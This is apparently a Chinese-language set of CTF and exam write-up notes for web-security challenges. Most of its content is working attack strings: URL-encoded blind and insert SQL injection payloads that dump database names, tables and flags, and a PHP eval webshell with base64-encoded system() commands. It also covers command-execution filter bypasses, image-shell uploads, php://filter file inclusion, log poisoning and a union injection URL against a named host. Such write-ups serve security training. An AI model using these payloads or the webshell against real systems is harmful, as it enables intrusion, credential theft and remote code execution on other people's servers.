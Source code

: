 [嘤嘤嘤]timesql #SQL注入漏洞 时间/盲注
题名写了timesql但是测试直接异或盲注他回显不一致，就用异或盲注，服务器太烂了，用时间盲注时间一大一小看不清结果。
全程用bp做
爆数据库名 为hazel
```
username=admin'%20anandd%20subsubstrstr(database()%2c§1§%2c1)%3d'§2§'%20%23&password=114514
```
![[Pasted image 20240327161324.png]]
爆表名长度 为5
```
username=admin'%20anandd%20length((selselectect%20table_name%20frfromom%20infoorrmation_schema.tables%20whwhereere%20table_schema%3ddatabase()))%20%3d%20§1§%20%23
```
![[Pasted image 20240328190530.png]]
爆表名 为 users
```
username=admin'%20anandd%20subsubstrstr((selselectect%20table_name%20frfromom%20infoorrmation_schema.tables%20whwhereere%20table_schema%3ddatabase())%2c§1§%2c1)%20%3d%20'§a§'%20%23
```
![[Pasted image 20240328191209.png]]
爆字段名 为 id,username,password
```
username=admin'%20anandd%20subsubstrstr((selselectect%20group_concat(column_name)%20frfromom%20infoorrmation_schema.columns%20whwhereere%20table_name%3d'users'%20anandd%20table_schema%3ddatabase())%2c§1§%2c1)%20%3d%20'§i§'%20%23
```
![[Pasted image 20240328193336.png]]
爆字段(payload列表注意加上flag所需的字符)：
```
admin'%20anandd%20subsubstrstr((selselectect%20group_concat(id%2c%22%3a%22%2cusername%2c%22%3a%22%2cpasswoorrd%2c%22%3a%22)%20frfromom%20hazel.users)%2c§1§%2c1)%20%3d%20'§i§'%20%23
```

| id  | username | password                                    |
| --- | -------- | ------------------------------------------- |
| 0   | admin    | admin666666                                 |
| 1   | hazel    | hazel{d3f3bac6-3fe8-4e5e-8680-40a5b0003799} |

[嘤嘤嘤]insertsql #SQL注入漏洞 
insert注入，查看页面，有上传文章的功能
![[Pasted image 20240329124443.png]]
尝试在标题注入，其显示上传失败，并快速重定向至主页面，但是显示了一瞬间的sql语句，打开BP的intercept,显示出了其使用的sql语句： ^d26139
```
insert into article(title,author,description,content,dateline) values('114514' and 1=2#','114514','114514','114514',1711687035)
```
可以看到除了标题还有4个字段，那就在标题构造注入：
```
114514',database(),user(),'114514',1919810)#
```
去管理文章的页面点击修改我们刚发布的文章，可以看到其回显了数据库名以及用户名：
![[Pasted image 20240329124936.png]]
爆表名 为article,hazel
```
10086',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'10086','10086','1919810')#
```

^1e5e69

![[Pasted image 20240329125252.png]]
爆字段名 为 id,flag_is_here
```
10086',(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name="hazel"),'10086','10086','1919810')#
```
![[Pasted image 20240329125514.png]]
dump
```
10086',(select flag_is_here from hazel.hazel where id=2),'10086','10086','1919810')#
```

| id  | flag_is_here                                |
| --- | ------------------------------------------- |
| 1   | shuaige                                     |
| 2   | hazel{863184db-8501-49b4-a8c9-96bc10101c72} |

[嘤嘤嘤]成绩单 #SQL注入漏洞 
页面只有一个查询框，查1出成绩，查异常值不出，尝试布尔盲注猜解闭合方式为：单引号闭合
`1' and 1=2 #`
爆数据库名长度 为 5
```
id=1'+and+length(database())%3d§1§%23
```
![[Pasted image 20240329131949.png]]
爆数据库名 为 hazel
```
id=1'+and+substr(database(),§1§,1)%3d'§1§'%23
```
![[Pasted image 20240329132535.png]]
爆表名总长度 为 7
```
id=1'+and+length((select+group_concat(table_name)+from+information_schema.tables+where+table_schema%3ddatabase()))%3d§1§%23
```
![[Pasted image 20240329132859.png]]
爆表名 为 fl4g,sc
```
id=1'+and+substr((select+group_concat(table_name)+from+information_schema.tables+where+table_schema%3ddatabase()),§1§,1)%3d'§1§'%23
```
![[Pasted image 20240329133352.png]]
爆字段长度 为 10
```
id=1'+and+length((select+group_concat(column_name)+from+information_schema.columns+where+table_schema%3ddatabase()+and+table_name%3d'fl4g'))%3d§1§%23
```
![[Pasted image 20240329135041.png]]
dump长度 为42
```
id=1'+and+length((select+*+from+hazel.fl4g))%3d§1§%23
```
dump
```
id=1'+and+substr((select+*+from+hazel.fl4g),§1§,1)%3d'§1§'%23
```
```
hazel{8c4c152d-1aa9-4991-8aac-951ca6e3efa0}
```
[嘤嘤嘤]P1_1
base64加密注入，爆字段数找回显点（让他的不成立）不要用and，页面也不会回显错误，错误就不显示结果
[嘤嘤嘤]P1_2
[嘤嘤嘤]P1_3
```
<?php

@$a = $_POST['Hello'];

if(isset($a)){

@preg_replace("/\[(.*)\]/e",'\\1',base64_decode('W0BldmFsKGJhc2U2NF9kZWNvZGUoJF9QT1NUW3owXSkpO10='));

}

?>

Hello

<br>

閫忚繃鐜拌薄鐪嬫湰璐紝涓栫晫寰堢畝鍗曪紒

W0BldmFsKGJhc2U2NF9kZWNvZGUoJF9QT1NUW3owXSkpO10=

[@eval(base64_decode($_POST[z0]));]

z0=system('ls'); --> z0=c3lzdGVtKCdscycpOw==

Hello=12312321&z0=c3lzdGVtKCdscycpOw==

Hello=12312321&z0=c3lzdGVtKCd0YWMgLi4va2V5LnBocCcpOw==
```

^bf5f69

[嘤嘤嘤]P1_4
命令执行，
过滤了cat head tail cp mv vi vim
使用grep '\*' ../flag拿flag
[嘤嘤嘤]P1_5
直接禁用JS防止其生成随机数，登录
这题key错的
[嘤嘤嘤]P2_1
sql注入
过滤：
`空格 # union`
绕过：
`/**/ %23 ununionion`
不过只是让读取文件，直接loadfile
[嘤嘤嘤]P2_2
文件上传
直接传带图片头的图片拦截加马改phtml
[嘤嘤嘤]P2_3
文件包含
使用php://filter/read=convert.base64-encode/resource=..key.php
拿到flag
[嘤嘤嘤]P2_4
命令执行
过滤了ls cat，直接定义变量绕过
[嘤嘤嘤]P2_5
日志跳
[嘤嘤嘤]P3_1
二次注入
注册admin'#123，重置密码，改的是admin密码。
[嘤嘤嘤]P3_2
文件上传
很简单只做了文件头过滤，没过滤php，所以不要一上来试phtml，万一php就行呢
[嘤嘤嘤]P3_3
和[[EXAM特供WP#^bf5f69]]P1_3一样的
[嘤嘤嘤]P3_4
代审&命令执行
cmd参数长度小于30执行cmd但不回显。
使用反引号执行命令将其重定向至文件
有admin文件夹及其下的backdoor.php
构造命令超30，使用通配符减小长度。
```
GET /start/vul.php?cmd=echo+"`cat+../a*/*.php`">1.txt
```
[嘤嘤嘤]P3_5
命令执行
过滤了; ls php使用&& 变量 通配符绕过。
[嘤嘤嘤]P4_1
有文章上传功能，是insert注入和[[EXAM特供WP#^d26139]]一样
```
insert into article(title,author,description,content,dateline) values('1'','13123','3131','313',1713177034)
```
[嘤嘤嘤]P4_2
文件上传
直接传图片马
[嘤嘤嘤]P4_3
文件包含，但是没key
[嘤嘤嘤]P4_4
命令执行
```
<?php
error_reporting(0);
include "key4.php";
$a=$_GET["a"];
eval("\$o=strtolower(\"$a\");");
echo $o;
show_source(__FILE__);
?>
```
构造
`");system('ls');//`
闭合strlower,注释后面的
[嘤嘤嘤]P4_5
改cookie，base64加密的名字和直接写cookie里的isadmin
[嘤嘤嘤]P5_1
无
[嘤嘤嘤]P5_2
文件包含
获取日志，useragent传马
[嘤嘤嘤]P5_3
命令执行
过滤了 ；ls cat
使用&& 变量过
[嘤嘤嘤]P5_4
文件上传
直接传图片马
[嘤嘤嘤]P5_5
同上
[嘤嘤嘤]P6_1
sql注入
`http://hazelshishuaige.club:9111/start/index.php?uuid=983fd952-df4e-4b63-946f-f2e6bb0327d67' union select 1,(select group_concat(haha) from hazel.IS_KEY),3,4,5,6 and '1'='1`
过滤了注释符，爆列数得用union select，order by 无回显
[嘤嘤嘤]P6_2
文件上传
过滤了php,MIME头，敏感函数，evalassert等，以及文件头验证
直接传马，成功，不知道为什么php过滤没起作用
[嘤嘤嘤]P6_3
固定后缀00截断超长get都不起作用
直接内网机器挂http，用http协议拿马txt
[嘤嘤嘤]P6_4
挂错了，反序列挂的命令
[嘤嘤嘤]P6_5
失效访问控制
cookie改名字，isadmin
加XFF头本地访问。
[嘤嘤嘤]pte1_055
暴力破解带验证码直接关闭JS拦截此次正确的验证码重复请求
密码123qwe，flag在F1a9.php但是找不到
[嘤嘤嘤]pte1_051
sql注入
过滤了# ；“ -- or
`admin' Or 1=1 Or '1'='1`
拿到f1a9.php
[嘤嘤嘤]pte1_045
日志题，跳
[嘤嘤嘤]pte1_041
sql注入
闭合注释显示正常而and 1=1显示不正常的直接不要and
flag-{bmhbb1bbe71-f818-4743-a418-7a7854a4e42f}
flag错的
[嘤嘤嘤]pte1_025
日志题，跳
[嘤嘤嘤]pte1_fuzz
暴力破解+命令执行
禁用JS破解，输入base64命令
/tmp下没有flag
[嘤嘤嘤]pte1_024
命令执行
过滤了cat head tail cp mv
使用vi vim 或者tee或者变量都行
key错的
[嘤嘤嘤]pte1_022

[嘤嘤嘤]pte1_041